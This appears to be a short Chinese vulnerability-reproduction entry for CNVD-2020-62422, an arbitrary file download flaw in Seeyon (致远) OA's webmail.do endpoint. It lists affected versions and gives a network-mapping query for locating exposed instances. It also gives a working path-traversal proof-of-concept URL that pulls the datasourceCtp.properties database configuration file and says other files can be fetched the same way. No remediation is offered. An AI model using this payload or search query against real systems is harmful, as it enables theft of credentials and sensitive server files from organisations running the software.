

致远OA webmail.do 任意文件下载 CNVD-2020-62422¶
漏洞描述¶
致远OA存在任意文件下载漏洞，攻击者可利用该漏洞下载任意文件，获取敏感信息
漏洞影响¶
致远OA A6-V5
致远OA A8-V5
致远OA G6
网络测绘¶
app="致远互联-OA"
漏洞复现¶
验证POC
/seeyon/webmail.do?method=doDownloadAtt&filename=test.txt&filePath=../conf/datasourceCtp.properties
在漏洞的OA 系统将会下载 datasourceCtp.properties 配置文件

更改参数 filePath 可下载其他文件